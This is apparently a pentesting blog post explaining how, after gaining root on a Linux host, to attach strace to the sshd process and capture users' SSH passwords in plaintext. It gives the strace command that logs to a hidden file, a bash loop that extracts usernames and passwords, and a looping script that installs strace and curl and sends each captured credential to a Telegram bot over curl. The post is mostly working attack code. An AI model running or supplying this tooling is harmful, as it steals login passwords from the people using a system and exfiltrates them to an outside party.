 ```yaml
---
layout: post
title: Stealing SSH credentials.
description: Some times during a pentest you get a root access to a linux workstation or a server, but you don't have the root password, so what to do to get it?
keywords: ssh, pwning, bash, G4mbl3r
disqus: true
tags: [SSH]
categories: Persistence
---
```

#### Ok I became root what can I do now?.
BEFORE ALL, it's an old trick, but all the tutorials that I found didn't work for me, so I just wrote my own :).
Sometimes when you get root access to a server or a workstation, you don't really have the root password, sometimes you just exploit the server, and got id 0, what can I do in this case?

Well I know two ways to do this, recompile ssh with some extra code, or monitor sshd proccess and get the password on the fly, this time I'll talk about the second option.

There is a linux tool called strace, it's a debbuger, where you can attach running proccess to (WAIT FOR IT) debug it, so basically, what I'm going to do is monitor the sshd proccess.

{% highlight bash %}
strace -f -p $(pgrep -f "/usr/sbin/sshd") -s 128 -o /root/.gpg/auth.log
{% endhighlight %}

Let's undestand what it's doing,
strace : Debbuger
-f : Option to monitor child proccess
-p : Option to set the sshd proccess pid
-s : limit the string size to 128 the default is 32
-o : set the output file (REALLY IMPORTANT)

so just to test start the strace log on your linux over ssh, stop strace and do a grep for your password on the output file and it'll be there.

But it's not enought, we need to parse the file to get the user that owns this password, and get if the login was successful, to do that I wrote a bash script to get the password of every user with a shell.
{% highlight bash %}
for user in $(grep -vE 'nologin|false' /etc/passwd | cut -d ":" -f 1);do
  PASSWORD=$(grep -B 40 -E "authentication.*$user" .gpg/auth.log | grep "read(6" | grep -v unfinished | cut -d '"' -f 2 | sed 's/\\.//g')
  if [  "$PASSWORD" ];then
    echo "USER: $user"
    echo $NEWPASS
  fi
done
{% endhighlight %}

OUTPUT:
{% highlight bash %}
USER: gambler
5umasenhamuitoforteaqui!!!
{% endhighlight %}


BUT WAIT...

It's not a perfect method, it's functional but no perfect, as you can se on my grep, a search for some infos, that may change from one distro to another, so if you want to use it on your pentest's, be prepared to write your own greps, also, the sshd receives some nullbytes with the password, where I remove with the sed, but the next byte after the nullbytes is the size of the password, so how I'm totally laze I don't expend too much time trying to clean this info, then some times the password came with an extra character on begin, just like in the output above, there is the character 5 on the begining of the password.

Just to help all the tests were made on a Debian 9 with openssh-server 7.4p1-10+deb9u2.

And just to complete, here is a example of how get notified when you capture a password,

{% highlight bash %}
#!/bin/bash

API="YOUR BOT API GOES HERE"
USERID="YOUR TELEGRAM NUMERIC ID GOES HERE"
PATHLOG="/root/.gpg"
LOGFILE="$PATHLOG/auth.log"
LASTPASS=""
NEWPASS=""
MIDDLEWARE=""

function install(){
  if ! command -v strace || ! command -v curl;then
    if command -v apt-get &> /dev/null ;then
      apt-get install strace curl
    elif command -v yum &>/dev/null ;then
      yum install strace curl
    fi
  fi
}

function sendMessage(){
  if [[ "$MIDDLEWARE" != "$LASTPASS"  ]];then
    MESSAGE="$MIDDLEWARE"
    curl --silent "https://api.telegram.org/bot$API/sendMessage?chat_id=$USERID&text=$MESSAGE" >> /dev/null
    LASTPASS="$MIDDLEWARE"
  fi
}

function debian(){
  for user in $(grep -vE 'nologin|false' /etc/passwd | cut -d ":" -f 1);do
    NEWPASS=$(grep -E "authentication.*acct=..$user" .gpg/auth.log -B 50 | grep "write(4" | grep unfinished | cut -d '"' -f 2 | sed 's/\\.//g')
    if [ ! -z "$NEWPASS" ];then
	    NEWPASS="USER: $user PASSWD: $(echo $NEWPASS | tr '\n' ' ')"
      MIDDLEWARE="$MIDDLEWARE $NEWPASS"
    fi
  done
  echo "$MIDDLEWARE"
}

function main(){
  debian
  sendMessage
  MIDDLEWARE=""
  sleep 1
}
while true;do
main
done
{% endhighlight %}

This bash script send a message to you on telegram when it's identify a new login.

